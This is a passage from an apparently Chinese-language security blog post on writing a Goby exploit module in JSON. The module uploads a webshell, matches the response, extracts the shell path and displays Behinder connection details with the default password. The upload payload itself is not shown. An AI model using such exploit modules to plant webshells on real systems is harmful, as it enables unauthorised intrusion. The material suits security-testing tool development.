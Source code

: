 ```
        "type": "group",
        "operation": "AND",
        "checks": [
          `{`
            "type": "item",
            "variable": "$code",
            "operation": "==",
            "value": "200",
            "bz": ""
          `}`,
          `{`
            "type": "item",
            "variable": "$body",
            "operation": "contains",
            "value": "image_o",
            "bz": ""
          `}`
        ]
      `}`,
      "SetVariable": [
        "output|lastbody|regex|image_o\":\"(.*?)\""
      ]
    `}`
  ],
```

直接上传 shell，这里的 data 数据还是通过 Burp 直接复制即可，通过 Goby 的图形化界面复制进去会自动生成换行符之类的，Exploit 部分可以先将数据通过 PoC 部分的图形化界面生成再复制进下面 Exploit 的 json 中。

[![](https://p1.ssl.qhimg.com/t01a15ed0cf45d55711.png)](https://p1.ssl.qhimg.com/t01a15ed0cf45d55711.png)

图片下方为测试截图

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01991694dde1eacf28.png)

这里因为需要输出 shell 地址和连接方式，并且要去掉 \，这样的话就需要变量或者字符串拼接… 一直没测试成功，就通过 expParams 设置了一下显示信息…

```
"ExpParams": [
    `{`
      "name": "webshellinfo",
      "type": "textarea",
      "value": "Using Behinder_v3.0 connection, password is rebeyond",
      "show": ""
    `}`
  ],
```

但是这样是不合规的 – -，因为 ExpParams 不是当做输出信息来用的，而是为了给 EXP 传参用的。最后问了 Goby 的师傅说目前使用 json 编写要想在 output 处实现这样的需求是不行的，想要实现的话只能使用 go 来编写了。
